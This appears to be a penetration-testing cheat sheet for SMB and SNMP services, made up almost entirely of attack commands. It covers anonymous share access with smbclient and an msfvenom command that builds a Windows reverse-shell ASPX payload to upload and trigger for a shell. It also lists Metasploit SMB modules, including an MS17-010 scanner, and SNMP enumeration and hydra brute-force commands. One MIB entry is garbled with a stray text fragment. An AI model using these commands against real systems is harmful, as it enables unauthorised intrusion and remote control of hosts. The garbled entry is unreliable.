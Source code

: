  ### Accessing the SAMBA Services
 
 *Entering with smbclient in samba shares without passwd
 
 *`ITDEPT` name of share
                
    smbclient --no-pass //192.168.236.11/ITDEPT
  ### Trick in samba services 
  *There maybe a port that run in the browser as samba service, So upload payload in samba and run in browser to get shell
  * Example windows gennerate payload with msfvenom
        
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.152.52  LPORT=4444 — platform windows -a x64 -f aspx -o shell2.aspx
 
### Metasploit Modules for Microsoft SMB service;

    auxiliary/scanner/smb/psexec_loggedin_users
    auxiliary/scanner/smb/smb_enumshares
    auxiliary/scanner/smb/smb_enumusers
    auxiliary/scanner/smb/smb_enumusers_domain
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_lookupsid
    auxiliary/scanner/smb/smb_ms17_010
    auxiliary/scanner/smb/smb_version


## Port 161/162 - UDP (SNMP)

- Enumeration commands for SNMP service;

```bash
nmap -sU --open -p 161 192.168.1.0/24 -oG SNMP_hosts.txt
nmap -p 161 --script snmp-enum <ip>
nmap -n -vv -sV -sU -Pn -p 161,162 --script=snmp-processes,snmp-netstat 192.168.1.10
perl /usr/share/doc/libnet-snmp-perl/examples/snmpwalk.pl -v 1 -c public 10.13.37.11
snmp-check -c public -v 2c 10.13.37.11 -d 
onesixtyone -c communities.txt -i 192.168.1.10 # Find community string 
snmp-check -t 192.168.1.10 -c public # -c <cummunity string>
snmpwalk -c public -v 1 192.168.1.10 [MIB_TREE_VALUE]
snmpenum 10.10.11.136 public linux.txt 
hydra -P passwords.txt -v 192.168.1.10 snmp
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
snmp-check 10.11.1.111 -c public|private|community

#Communities.txt
public
private
community

#SNMP MIB Trees
1.3.6.1.2.1.25.1.6.0 System Processes
1.3.6.1.2.1.25.4.2.1.2 Running Programs
1.3.6.1.2.1.25.4.2.1.4 Processes Path
1.3.6.1.2.1.25.2.3.1.4 Storage Units
1.3.6.1.2.1.25.6.3.1.2 Software Name
1.3.6.1.4.1.77.1.2.25 ote configuration of the HP Jetdirect device when there are no other configuration methods or it can be used to check the current configurationUser Accounts
1.3.6.1.2.1.6.13.1.3 TCP Local Ports
```    
